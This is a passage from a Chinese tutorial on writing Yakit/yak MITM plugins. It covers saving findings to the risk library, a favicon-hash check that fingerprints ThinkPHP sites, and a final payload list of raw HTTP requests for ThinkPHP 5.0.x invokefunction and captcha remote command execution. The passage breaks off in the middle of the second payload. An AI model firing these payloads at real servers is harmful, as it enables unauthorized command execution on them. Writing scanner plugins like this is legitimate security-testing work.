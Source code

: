 在poc.HTTP支持使用fuzz标签

## 持久化

 yak的risk库可以对数据持久化

例如：

```Go
risk.NewRisk("https://www.baidu.com", risk.title("html源码泄露"), risk.type("敏感信息泄露"),risk.level("高危"))
```

## mitm插件编写

mitm模块主要提供了5个hook方法，创建新插件时的模板有详细的注解介绍

因为每个网站只需要检测一次，所以选用`mirrorNewWebsite`方法（每当出现一个新网站时，此方法会被调用）

由于用户正常访问网站时，也会对favicon.ico进行获取，所以可以在`mirrorNewWebsitePath`方法中直接拿到favicon.ico，计算hash进行判断，相比在`mirrorNewWebsite`方法中使用`http.RequestFaviconHash`获取hash，减少了一次对favicon.ico的请求

代码如下

```Python
rootUrl = str.ParseStringUrlToWebsiteRootPath(url)
// 手动对favicon.ico的hash计算方法就是，先base64，再MMH3Hash32计算
if str.EndsWith(url, "favicon.ico") && codec.MMH3Hash32(codec.EncodeBase64(rsp)) == "1165838194"{
    testExp(rootUrl)
}
```

上面这方法调试发现，即使是第一次访问的网站，有时浏览器不会请求favicon.ico

所以还是用常规的`http.RequestFaviconHash`方法去获取hash

## 最终代码

```Go
payloads = [
    {
        "name":"thinkphp5.0.23 5.0.7 ~ 5.0.23命令执行",
        "payload":`GET /index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]={{url({{params(cmd)}})}} HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36

`},

{
    "name":"Thinkphp captcha命令执行",
    "payload":`POST /index.php HTTP/1.1
Host: {{params(target)}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: no-cache
Connection: close
Content-Length: 52
```